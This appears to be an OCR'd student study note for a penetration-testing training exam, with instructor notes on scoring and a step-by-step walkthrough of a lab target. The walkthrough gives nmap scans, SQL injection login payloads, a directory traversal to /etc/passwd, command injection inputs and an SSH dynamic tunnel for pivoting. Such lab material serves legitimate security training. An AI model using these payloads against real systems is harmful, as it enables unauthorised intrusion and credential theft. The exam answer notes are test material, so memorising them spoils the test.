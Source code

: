 Windows-Workstation

· Perform Reconnaissance

xv. Actively scan and interact with target to find potential attack vectors.

· Attempt Exploitation || Gain Initial Access

xvi. Use information gained from reconnaissance to gain access to the system. Reconnaissance from other targets within the network may have information relevant to any target.

· Find Additional Targets

xvii. Perform post-exploitation tasks (situational awareness, localhost enumeration, privilege escalation, etc).

xviii. Discover additional targets through analysis of information from post-exploitation tasks.

· Pivot to Found Targets

xix. Pivot through network to other targets as you find them.

NOTES •

Instructor notes for DryRun

2 parts: 16 part 1. 15 part 2. Need 22 questions total to pass.

Will kno wwhat box you're on because it will say it on the host name. So any questions with Linux 1 will be on the Linux 1 box. But be aware that that same box might have questions in multiple boxes (priv esc, recon, etc)

Questions will have between 3-5+ attempts

start of boxes

T1:

· nmap -Pn 10.50.26.76

· nmap -Pn 10.50.26.76 --scripts http-enum

· enumerate pages based on what aboce command finds

· look through for scripts, it shoudl pop up with the creds user2:****password

· in username area do tom' or 1=1#

· or use dev console 10.50.20.191/login.php?username=tom' or 1='1&passwd=tom' or 1='1

· this gives us that list of passwords and usernames again

· command injection and directory traversal (CHECK BOTH)

o directory traversal: ../../../../../../../../etc/passwd this will give us username, home directory, and default shell

o cmd injection: ;whoami --> ssh key upload if this works

§ ;ls/var/www/html -la to see if there are any other pages and enumerate the website

BESTWEBAPP TRAVERSAL · now actually get on box with ssh user2@10.50.25.76 -D 9050 (through dynamic just incase it's needed)
